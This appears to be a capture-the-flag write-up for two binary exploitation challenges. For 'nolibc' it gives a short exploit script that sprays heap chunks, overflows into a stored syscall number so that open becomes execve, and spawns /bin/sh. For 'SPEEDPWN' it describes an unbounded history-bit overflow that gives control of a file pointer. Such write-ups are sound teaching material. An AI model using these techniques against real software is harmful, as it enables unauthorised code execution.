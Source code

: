 ## nolibc

use `create_string` to overflow the heap directly. After registering, the size of `forest_chunk` is still `0xbf80`. From `create_string`, we can fill up the heap with `0xbf * 0x100` chunks. The last chunk left, `0x80`, will be used to overflow.

Note that we need to make a bit of space for the `malloc(0x20)` call when reading in the filename, if not the program will crash.

```
for i in range(0xbf):  
    print(i)  
    create_string(0xef, b"asdf")  
  
payload = b"a"*0x70  
payload += p32(0x0)  
payload += p32(0x1)  
payload += p32(0x3b)  
payload += p32(0x3)  
create_string(0x7f, payload)  
  
# make space  
delete_string(0)  
  
p.sendlineafter(b"Choose an option", b"5")  
p.sendline(b"/bin/sh")
```

since the porgrams have saved syscall numbers in global section, we had to perform heap overflow and change the open syscall nubmer 1 to 59 for execve and call load string from file function after naming a file '/bin/sh' .

## SPEEDPWN

In `fight_bot`, after winning or losing a game, `game_history` is updated by setting the current bit to 1 or 0 respectively, and then incrementing current bit by 1. There’s no bound to the current bit, so we can overflow and control everything after `game_history`

overwriting `seed_generator` will allow us to control a file pointer

